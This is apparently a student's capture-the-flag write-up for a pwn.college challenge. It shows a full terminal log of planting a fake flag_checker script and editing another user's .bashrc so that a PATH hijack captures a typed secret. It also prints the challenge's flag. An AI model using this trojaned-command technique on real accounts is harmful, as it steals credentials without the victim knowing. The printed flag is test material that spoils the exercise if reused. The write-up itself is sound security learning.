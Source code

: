 # Silly Shenanigins

## Sniffing Input
This time, Zardus doesn't keep the flag lying around in a readable file after he logs in. Instead he'll run a command named flag_checker, manually typing the flag into it for verification.

### Objective 
Your mission is to use your continued write access to Zardus's .bashrc to intercept this flag. Remember how you hijacked commands in the Pondering PATH module? Can you use that capability to hijack the flag_checker?

### Solve
**Flag:** `pwn.college{4B8Senc9FUQ9I_P4pydUPsa5oPr.QX1MTM3EDLygjN0czW}`

- First I made the flag_checker script to read the flag and then display it.
- Then I changed the directory to /home/zardus and modified its .bashrc startup script to add /home/hacker to the beginninge of its path and display the path to the flag_checker command.
- Then I ran the `/challenge/victim` command. But I didn't get the flag as the command did not take the /home/hacker as the path to the flag_checker command and instead ran the usual flag_checker command.
- Now I got stuck here for a while as I couldn't figure out why it wasn't running my command. At the end I finally checked the permissions of the flag_checker file in the hacker home directory. There the executable permissions were not provided and that was what was causing the issue. 
- I added the executable permission and then again ran the `/challenge/victim` command. This time around, it ran as I wanted and I got the flag.

```bash
hacker@shenanigans~sniffing-input:~$ touch flag_checker
hacker@shenanigans~sniffing-input:~$ nano flag_checker
hacker@shenanigans~sniffing-input:~$ cat flag_checker
#!/bin/bash

echo "Type the flag :"
read flag
echo "Flag : $flag"
echo "Thanks for the flag"
hacker@shenanigans~sniffing-input:~$ cd /home/zardus
hacker@shenanigans~sniffing-input:/home/zardus$ nano ./.bashrc
hacker@shenanigans~sniffing-input:/home/zardus$ /challenge/victim
Username: zardus
Password: *******
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag, victim: ************************************************************
Correct!
zardus@shenanigans~sniffing-input:~$ exit
logout
hacker@shenanigans~sniffing-input:/home/zardus$ cd
hacker@shenanigans~sniffing-input:~$ ls
Desktop  bin  flag  flag_checker  home-backup.tar.gz  rm
hacker@shenanigans~sniffing-input:~$ nano flag_checker
hacker@shenanigans~sniffing-input:~$ which flag_checker
/run/challenge/bin/flag_checker
hacker@shenanigans~sniffing-input:~$ cd /home/zardus
hacker@shenanigans~sniffing-input:/home/zardus$ touch flag_checker
touch: cannot touch 'flag_checker': Permission denied
hacker@shenanigans~sniffing-input:/home/zardus$ which cat
/run/dojo/bin/cat
hacker@shenanigans~sniffing-input:/home/zardus$ export PATH="/home/hacker:/r
un/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/b
in:/sbin:/bin"
hacker@shenanigans~sniffing-input:/home/zardus$ which flag_checker
which: no flag_checker in (/home/hacker:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin)
hacker@shenanigans~sniffing-input:/home/zardus$ cd
hacker@shenanigans~sniffing-input:/home/zardus$ cd
hacker@shenanigans~sniffing-input:~$ ls -l flag_checker
-rw-r--r-- 1 hacker hacker 100 Sep 28 07:57 flag_checker
hacker@shenanigans~sniffing-input:~$ chmod a+x flag_checker
hacker@shenanigans~sniffing-input:~$ ls -l flag_checker
-rwxr-xr-x 1 hacker hacker 100 Sep 28 07:57 flag_checker
hacker@shenanigans~sniffing-input:~$ which flag_checker
which: no flag_checker in (/home/hacker/flag_checker:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin)
hacker@shenanigans~sniffing-input:~$ cd /home/zardus
hacker@shenanigans~sniffing-input:/home/zardus$ nano ./.bashrc
hacker@shenanigans~sniffing-input:/home/zardus$ /challenge/victim
Username: zardus
Password: *******
/home/hacker:/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
/home/hacker/flag_checker
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag, victim:
************************************************************Flag : pwn.college{4B8Senc9FUQ9I_P4pydUPsa5oPr.QX1MTM3EDLygjN0czW}
Thanks for the flag
zardus@shenanigans~sniffing-input:~$ exit
logout
```

### New Learnings
1. .bashrc can be modified easily and can be used to run commands without the user knowing. In this way, sensitive info can be found without anyone suspecting. So it is a security issue.